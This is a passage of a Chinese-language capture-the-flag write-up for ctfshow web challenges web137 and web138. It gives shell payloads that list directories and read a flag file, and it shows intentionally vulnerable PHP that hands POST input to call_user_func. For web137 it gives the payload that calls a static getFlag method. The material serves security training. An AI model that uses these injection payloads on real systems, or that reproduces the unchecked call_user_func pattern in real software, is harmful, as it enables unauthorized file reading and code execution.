 payload：

```
ls | tee 1
ls / | tee 2
cat /f149_15_h3r3 | tee 3
```

##  web137(call_user_func)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

call_user_func($_POST['ctfshow']); 
```

直接调用类中的方法

```
ctfshow=ctfshow::getFlag
```

拓展

```
php中 ->与:: 调用类中的成员的区别
->用于动态语境处理某个类的某个实例
::可以调用一个静态的、不依赖于其他初始化的类方法.
```

## web138(call_user_func传入数组)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}
if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}
call_user_func($_POST['ctfshow']);
```
